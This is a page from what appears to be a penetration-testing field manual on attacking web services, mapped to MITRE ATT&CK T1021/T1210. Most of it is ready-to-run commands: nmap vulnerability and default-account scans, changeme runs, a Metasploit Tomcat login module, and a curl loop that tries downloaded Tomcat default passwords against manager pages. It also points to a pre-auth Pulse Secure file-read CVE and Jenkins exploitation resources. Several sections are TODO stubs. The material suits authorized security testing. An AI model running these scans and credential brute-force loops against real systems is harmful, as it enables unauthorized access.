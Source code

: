 
# Flawed HTTP Remote Services

## Overview

MITRE ATT&CK mapping: T1021 / T1210

## Procedures

### Additional tools

 - [gnmap2urls.sh](scripts/gnmap2urls.sh)
 - [http-fingerprints-min.lua](scripts/http-fingerprints-min.lua)
 - [nikto vuln db file](https://raw.githubusercontent.com/sullo/nikto/master/program/databases/db_tests)

### Web vulnerability discovery

Prepare target list:

    # transform URL list to hosts (http-ips.txt) and ports (http-ports.txt) lists:
    cat urls-all.txt | tee >(awk -F '//' '{print $2}' | cut -d':' -f1 > http-ips.txt) >(awk -F '//' '{print $2}' | awk -F':' '{print $2}' | grep . | sort -u > http-ports.txt)

Using Nikto DB:

    # get nikto vuln db file
    wget https://raw.githubusercontent.com/sullo/nikto/master/program/databases/db_tests -O nikto_db_tests

    # get minimal http-enum script
    wget https://raw.githubusercontent.com/mzet-/z-field-manual/master/scripts/http-fingerprints-min.lua

    # conduct http vuln scan on all previously identified http-based services:
    nmap -n -PN -sS -sV --version-intensity 2 --script=http-enum --script-args=http-enum.fingerprintfile=./http-fingerprints-min.lua,http-fingerprints.nikto-db-path=./nikto_db_tests -T4 -iL http-ips.txt -p80,443,$(cat http-ports.txt | tr '\n' ',') -oA vscans/http-nikto-vuln-scan

Using http-vulners-regex:

```
# get latest http vulners and regex matches:
wget https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/http-vulners-regex.nse
wget https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/http-vulners-regex.json
wget https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/http-vulners-paths.txt

# TODO: launch
mv http-vulners-regex.nse res/
cd /usr/share/nmap/scripts
ln -s "$HOME/res/http-vulners-regex.nse"
nmap --script-updatedb

# -sV is required as Nmap need to determine if provided ports different then 80,443 are really http-based services
# other alternative would be to change portrule to match particular port on fly (as here: https://github.com/InfosecMatter/default-http-login-hunter)
# http-vulners-regex - constructs CPEs for http-based services
# vulners - queries API at https://vulners.com for known CVEs for given CPEs
nmap -n -PN -sS -sV --open --script=http-vulners-regex,vulners -p$(cat http-ports.txt | tr '\n' ',') -iL http-ips.txt -oA vscans/http-vulners-regex
```

[snallygaster](https://github.com/hannob/snallygaster) (run in parallel)

```
TODO
```

### Web vulnerability discovery 2

Web scanner of choice:

    https://github.com/detectify/ugly-duckling

### Web RCEs

[CVE-2019-11510](../../cheat-sheets/rce-collection.md#cve-2019-11510) - Pre-auth Arbitrary File Reading from Pulse Secure SSL VPNs.

### Web-based authentication panels

Default credentials: Nmap

```
# get Nmap's aternative default account db :
wget https://raw.githubusercontent.com/nnposter/nndefaccts/master/http-default-accounts-fingerprints-nndefaccts.lua

# transform URL list to hosts (http-ips.txt) and ports (http-ports.txt) lists:
cat urls-all.txt | tee >(awk -F '//' '{print $2}' | cut -d':' -f1 > http-ips.txt) >(awk -F '//' '{print $2}' | awk -F':' '{print $2}' | grep . | sort -u > http-ports.txt)

# change portrule in http-default-accounts script to contain all ports seen in http-ports.txt:
cp /usr/share/nmap/scripts/http-default-accounts.nse ./http-default-accounts-mod.nse
echo "portrule = shortport.portnumber({$(cat http-ports.txt | tr '\n' ',')})"

# check for default web-based accounts:
nmap -n -PN -sS -sV --open --version-intensity 2 --script=./http-default-accounts-mod.nse --script-args http-default-accounts.fingerprintfile=./http-default-accounts-fingerprints-nndefaccts.lua -T4 -iL http-ips.txt -p$(cat http-ports.txt | tr '\n' ',') -oA vscans/http-def-accounts
```

Default credentials: changeme

```
# note: when providing file to 'changeme' full path is required:
changeme '/home/pt/httprobe-all.txt' -v -t 20 | tee changeme-http-urls.out
changeme '/home/pt/vscans/nmap.xml' --category http -v -t 20 | tee changeme-http-urls.out
```

Weak/simple credentials:

```
TODO
```


### Apache Tomcat: default/weak credentials

Use Metasploit module:

```
auxiliary/scanner/http/tomcat_mgr_login
```

OR (if many different ports are used), prepare target list:

```
Prereq: Nmap scan results imported to msf

msf> services -S Coyote -c port -o /tmp/tomcat.csv
cat /tmp/tomcat.csv | tr ',' ':' | tr -d '"' | grep -v 'host' | ./httpx -silent | while read l; do echo "$l/manager/html"; done | tee tomcat-urls.txt
```

Prepare creds list:

```
# Set 1:
wget https://raw.githubusercontent.com/wintrmvte/medusa_combo_files/master/tomcat_default_79.txt
cat tomcat_default_79.txt | cut -d: -f2,3 > PAYLOADS/tomcat-defaults-1.txt

# Set 2:
$ wget https://raw.githubusercontent.com/netbiosX/Default-Credentials/master/Apache-Tomcat-Default-Passwords.mdown
$ cat Apache-Tomcat-Default-Passwords.mdown | tr -d ' ' | awk -F'|' '{print $2":"$3}' > PAYLOADS/tomcat-defaults-2.txt
```

Launch:

```
while read line; do echo -n "$line : "; for i in $(cat PAYLOADS/tomcat-defaults-1.txt); do RES=$(curl -k -H "Authorization: Basic $(echo -n "$i" | base64)" -s -o /dev/null -w "%{http_code}" --url "$line"); echo "$i:: $RES"; [ "$RES" -eq 200 ] && break; done; done < tomcat-urls.txt | tee tomcats-results-1.txt
```

### Wordpress

### Atlassian Confluence

### Jenkins

   https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins
   https://github.com/gquere/pwn_jenkins

### Jira

   https://github.com/bcoles/jira_scan

## OPSEC considerations

## Counter-countermeasures
